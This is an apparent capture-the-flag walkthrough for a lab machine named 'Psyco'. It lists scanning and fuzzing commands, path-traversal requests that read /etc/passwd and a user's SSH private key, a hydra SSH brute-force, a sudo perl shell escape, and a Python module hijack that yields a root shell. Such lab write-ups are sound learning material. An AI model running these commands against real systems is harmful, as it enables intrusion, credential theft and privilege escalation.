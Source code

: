 # Psyco

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page

![alt text](image.png)


gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -r -x php 

![alt text](image-1.png)


sudo wfuzz -c --hl=62 -w SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd'

![alt text](image-2.png)


curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../etc/passwd"

![alt text](image-3.png)


sudo hydra -l vaxei -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I

![alt text](image-4.png)

curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../home/vaxei/.ssh/id_rsa"

![alt text](image-5.png)

sudo ssh -i id_rsa vaxei@172.17.0.2

![alt text](image-6.png)


sudo -u luisillo perl -e 'exec "/bin/sh";'

![alt text](image-7.png)

![alt text](image-8.png)

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()

```

![alt text](image-9.png)

Creamos el archivo subprocess.py

```python
import os; os.system("/bin/sh")
```

sudo -u root /usr/bin/python3 /opt/paw.py

![alt text](image-10.png)